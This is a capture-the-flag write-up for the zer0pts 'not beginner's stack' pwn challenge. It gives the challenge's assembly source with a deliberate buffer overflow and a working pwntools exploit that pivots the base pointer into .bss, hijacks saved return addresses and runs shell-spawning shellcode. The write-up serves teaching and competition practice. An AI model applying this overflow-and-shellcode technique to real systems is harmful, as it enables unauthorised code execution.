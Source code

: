 ## zer0pts CTF: not beginner's stack [pwn]
##### *tl;dr: overwrite saved base pointer to point to .bss section which holds saved instruction pointers*

##### main.S
```a
global _start
section .text

%macro call 1
;; __stack_shadow[__stack_depth++] = return_address;
  mov ecx, [__stack_depth]
  mov qword [__stack_shadow + rcx * 8], %%return_address
  inc dword [__stack_depth]
;; goto function
  jmp %1
  %%return_address:
%endmacro

%macro ret 0
;; goto __stack_shadow[--__stack_depth];
  dec dword [__stack_depth]
  mov ecx, [__stack_depth]
  jmp qword [__stack_shadow + rcx * 8]
%endmacro

_start:
  call notvuln
  call exit

notvuln:
;; char buf[0x100];
  enter 0x100, 0
;; vuln();
  call vuln
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x100);
  mov edx, 0x100
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return 0;
  xor eax, eax
  ret

vuln:
;; char buf[0x100];
  enter 0x100, 0
;; write(1, "Data: ", 6);
  mov edx, 6
  mov esi, msg_data
  xor edi, edi
  inc edi
  call write
;; read(0, buf, 0x1000);
  mov edx, 0x1000               ; [!] vulnerability
  lea rsi, [rbp-0x100]
  xor edi, edi
  call read
;; return;
  leave
  ret

read:
  xor eax, eax
  syscall
  ret

write:
  xor eax, eax
  inc eax
  syscall
  ret

exit:
  mov eax, 60
  syscall
  hlt
  
section .data
msg_data:
  db "Data: "
__stack_depth:
  dd 0

section .bss
__stack_shadow:
  resb 1024

```

#### We were given a mini lecture which was pretty neat, along with the asm source of the challenge. In depth writeup later after I review some of the writeups for the other challs. Basically what we need to do is in the tl;dr, at which point we can then control code flow when we overwrite the saved instruction pointers. My plan was to place a shellcode there and jump to it. 

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./chall', checksec = False)
#libc = ELF('./libc.so.6', checksec = False)

#p = process('./chall')
p = remote('pwn.ctf.zer0pts.com', 9011)

#: GDB SETTINGS
breakpoints = ['break *vuln']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF

#: PWN THY VULNS
context.arch = 'amd64'
print(p.recvuntil(b'Data: '))
p.sendline(cyclic(0x100) + p64(0x600334)) #: SET RBP TO .bss THEN OVERWRITE SAVED INSTRUCTION POINTERS	

print(p.recvuntil(b'Data: '))
p.sendline(cyclic(8) + p64(0x600234 + 0x10) + asm('jmp [rbp - 0x100 + 0x18]') + b'AA' + p64(0x600254) + asm(shellcraft.sh()))
p.interactive()
```
![](notbeginnerstack_shell.png)